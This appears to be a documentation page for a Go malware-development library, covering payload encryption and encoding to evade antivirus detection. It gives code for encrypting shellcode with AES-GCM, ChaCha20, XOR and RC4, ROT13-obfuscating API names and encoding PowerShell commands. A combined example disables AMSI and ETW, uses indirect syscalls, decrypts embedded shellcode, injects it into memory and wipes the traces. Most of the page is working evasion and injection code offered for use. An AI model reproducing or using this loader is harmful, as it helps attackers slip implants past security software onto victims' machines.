



# Payload Encryption & Encoding

[<- Back to Crypto Overview](README.md)

**MITRE ATT&CK:** [T1027 - Obfuscated Files or Information](https://attack.mitre.org/techniques/T1027/)
**D3FEND:** [D3-SEA - Static Executable Analysis](https://d3fend.mitre.org/technique/d3f:StaticExecutableAnalysis/)

---

## For Beginners

Shellcode and payloads contain recognizable byte patterns that antivirus engines match with signatures. If your shellcode sits in the binary as plaintext, it will be detected before it ever runs.

**Putting your payload in an encrypted envelope that only you can open.** The payload is encrypted at build time with a strong algorithm (AES-256-GCM or XChaCha20). At runtime, the implant decrypts the payload in memory, injects it, and wipes the key. The binary on disk contains only encrypted gibberish -- no recognizable shellcode signatures.

---

## How It Works

### Encrypt-Inject-Decrypt Flow



### Algorithm Comparison



### AES-256-GCM Internals



---

## Usage

### AES-256-GCM (Recommended)

```go
import "github.com/oioio-space/maldev/crypto"

// Generate a random 32-byte key
key, _ := crypto.NewAESKey()

// Encrypt (nonce is prepended automatically)
shellcode := []byte{0x48, 0x31, 0xc0, /* ... */}
encrypted, _ := crypto.EncryptAESGCM(key, shellcode)

// Decrypt
decrypted, _ := crypto.DecryptAESGCM(key, encrypted)
```

### XChaCha20-Poly1305

```go
import "github.com/oioio-space/maldev/crypto"

key, _ := crypto.NewChaCha20Key() // 32 bytes

encrypted, _ := crypto.EncryptChaCha20(key, shellcode)
decrypted, _ := crypto.DecryptChaCha20(key, encrypted)
```

### XOR Obfuscation

```go
import "github.com/oioio-space/maldev/crypto"

xorKey := []byte("my-xor-key")

// XOR is symmetric: encrypt and decrypt are the same operation
obfuscated, _ := crypto.XORWithRepeatingKey(shellcode, xorKey)
deobfuscated, _ := crypto.XORWithRepeatingKey(obfuscated, xorKey)
```

### RC4 (Legacy Compatibility)

```go
import "github.com/oioio-space/maldev/crypto"

// WARNING: RC4 is cryptographically broken. Use for compatibility only.
rc4Key := []byte("rc4-key")
encrypted, _ := crypto.EncryptRC4(rc4Key, shellcode)
decrypted, _ := crypto.EncryptRC4(rc4Key, encrypted) // symmetric
```

### Base64 Encoding

```go
import "github.com/oioio-space/maldev/encode"

encoded := encode.Base64Encode(shellcode)
decoded, _ := encode.Base64Decode(encoded)

// URL-safe variant
urlEncoded := encode.Base64URLEncode(shellcode)
urlDecoded, _ := encode.Base64URLDecode(urlEncoded)
```

### ROT13 String Obfuscation

```go
import "github.com/oioio-space/maldev/encode"

obfuscated := encode.ROT13("NtAllocateVirtualMemory")
// "AgNyybpngrIveghnlZrzbel"

original := encode.ROT13(obfuscated)
// "NtAllocateVirtualMemory"
```

### PowerShell Encoding

```go
import "github.com/oioio-space/maldev/encode"

// Encode a PowerShell script as Base64 UTF-16LE (for powershell -EncodedCommand)
encoded := encode.PowerShell("Write-Host 'Hello'")
// Can be run as: powershell -EncodedCommand <encoded>
```

---

## Combined Example: Encrypt, Inject, Wipe

```go
package main

import (
    "context"
    "unsafe"

    "golang.org/x/sys/windows"

    "github.com/oioio-space/maldev/cleanup/memory"
    "github.com/oioio-space/maldev/crypto"
    "github.com/oioio-space/maldev/evasion"
    "github.com/oioio-space/maldev/evasion/amsi"
    "github.com/oioio-space/maldev/evasion/etw"
    "github.com/oioio-space/maldev/inject"
    wsyscall "github.com/oioio-space/maldev/win/syscall"
)

// Embedded at build time (encrypted shellcode + key)
var (
    encryptedPayload = []byte{/* output of EncryptAESGCM */}
    aesKey           = []byte{/* 32-byte key */}
)

func main() {
    // 1. Set up indirect syscalls
    caller := wsyscall.New(wsyscall.MethodIndirect,
        wsyscall.Chain(wsyscall.NewTartarus(), wsyscall.NewHalosGate()),
    )
    defer caller.Close()

    // 2. Apply evasion
    evasion.Apply(caller, amsi.Technique(), etw.Technique())

    // 3. Decrypt payload in memory
    shellcode, err := crypto.DecryptAESGCM(aesKey, encryptedPayload)
    if err != nil {
        panic("decryption failed -- payload tampered?")
    }

    // 4. Wipe the key immediately
    memory.SecureZero(aesKey)

    // 5. Inject shellcode
    pipe := inject.NewPipeline(caller)
    err = pipe.Inject(context.Background(), shellcode,
        inject.WithMethod(inject.MethodCreateThread),
    )

    // 6. Wipe decrypted shellcode from Go heap
    memory.SecureZero(shellcode)
}
```

---

## Advantages & Limitations

### Advantages

- **Authenticated encryption**: AES-GCM and ChaCha20-Poly1305 detect tampering (integrity + confidentiality)
- **Random nonces**: Nonces are generated from `crypto/rand` and prepended to ciphertext -- no nonce management needed
- **Key generation helpers**: `NewAESKey()` and `NewChaCha20Key()` produce proper random keys
- **Multiple tiers**: From cryptographic (AES/ChaCha20) to obfuscation (XOR) to encoding (Base64)
- **Pure Go**: No CGo dependencies, works with cross-compilation

### Limitations

- **Key distribution**: The key must reach the implant somehow -- embedded in binary, derived from environment, or fetched from C2
- **Entropy detection**: Encrypted payloads have high entropy, which heuristic scanners flag
- **XOR is trivially breakable**: Known-plaintext attacks recover the key if any ciphertext byte is known
- **RC4 is broken**: Stream cipher with known biases -- use only for legacy Metasploit compatibility
- **No key derivation**: No built-in KDF -- if using passwords, derive keys with Argon2/PBKDF2 externally

---

## Compared to Other Implementations

| Feature | maldev | msfvenom | Donut | ScareCrow |
|---------|--------|---------|-------|-----------|
| AES-GCM | Yes | No (AES-CBC) | Yes | Yes |
| ChaCha20 | Yes | No | No | No |
| XOR | Yes | Yes | Yes | Yes |
| RC4 | Yes | Yes | No | No |
| Authenticated | Yes (GCM/Poly1305) | No | Yes | Yes |
| Random nonce | Yes (auto) | N/A | Internal | Internal |
| Key generation | Yes | Internal | Internal | Internal |
| Base64 | Yes | Yes | No | Yes |
| PowerShell encoding | Yes | Yes | No | No |

---

## API Reference

### crypto/

```go
// AES-256-GCM
func NewAESKey() ([]byte, error)
func EncryptAESGCM(key, plaintext []byte) ([]byte, error)
func DecryptAESGCM(key, ciphertext []byte) ([]byte, error)

// XChaCha20-Poly1305
func NewChaCha20Key() ([]byte, error)
func EncryptChaCha20(key, plaintext []byte) ([]byte, error)
func DecryptChaCha20(key, ciphertext []byte) ([]byte, error)

// XOR
func XORWithRepeatingKey(data, key []byte) ([]byte, error)

// RC4 (WARNING: cryptographically broken)
func EncryptRC4(key, data []byte) ([]byte, error)
```

### encode/

```go
func Base64Encode(data []byte) string
func Base64Decode(s string) ([]byte, error)
func Base64URLEncode(data []byte) string
func Base64URLDecode(data string) ([]byte, error)
func ROT13(s string) string
func ToUTF16LE(s string) []byte
func PowerShell(script string) string
```
